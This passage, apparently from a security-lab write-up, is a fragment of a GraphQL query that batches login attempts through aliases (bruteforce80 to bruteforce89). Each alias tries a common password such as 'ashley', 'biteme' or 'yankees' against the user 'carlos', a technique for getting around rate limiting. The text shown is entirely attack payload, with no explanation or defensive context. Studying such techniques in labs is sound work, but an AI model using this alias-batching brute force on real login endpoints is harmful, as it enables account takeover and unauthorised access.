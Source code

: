 ```bash
        token
        success
    }


bruteforce80:login(input:{password: "ashley", username: "carlos"}) {
        token
        success
    }


bruteforce81:login(input:{password: "nicole", username: "carlos"}) {
        token
        success
    }


bruteforce82:login(input:{password: "chelsea", username: "carlos"}) {
        token
        success
    }


bruteforce83:login(input:{password: "biteme", username: "carlos"}) {
        token
        success
    }


bruteforce84:login(input:{password: "matthew", username: "carlos"}) {
        token
        success
    }


bruteforce85:login(input:{password: "access", username: "carlos"}) {
        token
        success
    }


bruteforce86:login(input:{password: "yankees", username: "carlos"}) {
        token
        success
    }


bruteforce87:login(input:{password: "987654321", username: "carlos"}) {
        token
        success
    }


bruteforce88:login(input:{password: "dallas", username: "carlos"}) {
        token
        success
    }


bruteforce89:login(input:{password: "austin", username: "carlos"}) {
        token
        success
    }
```